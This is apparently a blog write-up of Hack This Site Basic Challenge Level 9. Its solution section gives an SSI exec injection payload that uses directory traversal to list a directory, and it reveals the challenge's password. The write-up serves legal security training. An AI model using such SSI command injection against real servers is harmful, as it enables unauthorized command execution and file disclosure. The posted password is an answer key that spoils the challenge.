```yaml
---
title: "Basic Challenge Level 9"
description: "The password is again hidden in an unknown file. However, the script that was previously used to find it has some limitations. Requirements: Knowledge of SSI, unix directory structure."
summary: "The password is again hidden in an unknown file. However, the script that was previously used to find it has some limitations. Requirements: Knowledge of SSI, unix directory structure."
date: 2024-09-09
draft: false
author: "Aftab Sama" # ["Me", "You"] # multiple authors
tags: ["Hack This Site", "writeup", "challenge"]
canonicalURL: ""
showToc: true
TocOpen: false
TocSide: "right" # or 'left'
# weight: 1
# aliases: ["/first"]
hidemeta: false
comments: true
disableHLJS: true # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
  image: "files/level-9.png" # image path/url
  alt: "Cover: Level 9" # alt text
  caption: "" # display caption under cover
  relative: true # when using page bundles set this to true
  hiddenInSingle: false
  hidden: false # only hide on current single page
# editPost:
#     URL: "https://github.com/"
#     Text: "Suggest Changes" # edit text
#     appendFilePath: true # to append file path to Edit link
---
```


**Description:**

Sam is going down with the ship.
He's determined to keep obscuring the password file, no matter how many times people manage to recover it.
This time the file is saved in `/var/www/hackthissite.org/html/missions/basic/9/`.

In Basic 8, in his attempt to limit SSI to that challenge only, he mistakenly screwed up somewhere.
There is a way to get the obscured Basic 9 password, see if you can figure out how...

**Requirements:**

- SSI knowledge & UNIX directory structure understanding.

**Hints:**

- Read the description carefully.
- Look up "directory traversal".

**Difficulty:** Easy.

**Points:** 45

**Challenge Link:** https://www.hackthissite.org/missions/basic/9

**Forum Link:**

- https://www.hackthissite.org/forums/viewforum.php?f=14&t=10755

**Solution:**

Come back to [level 8](../basic-8/) and use the same payload to list files from the level 9 directory using `../../9`.

```
<!--#exec cmd="ls ../../9" -->
```

We get the file named `p91e283zc3.php`, which contains the password `1f6aa876`.

Happy Hacking

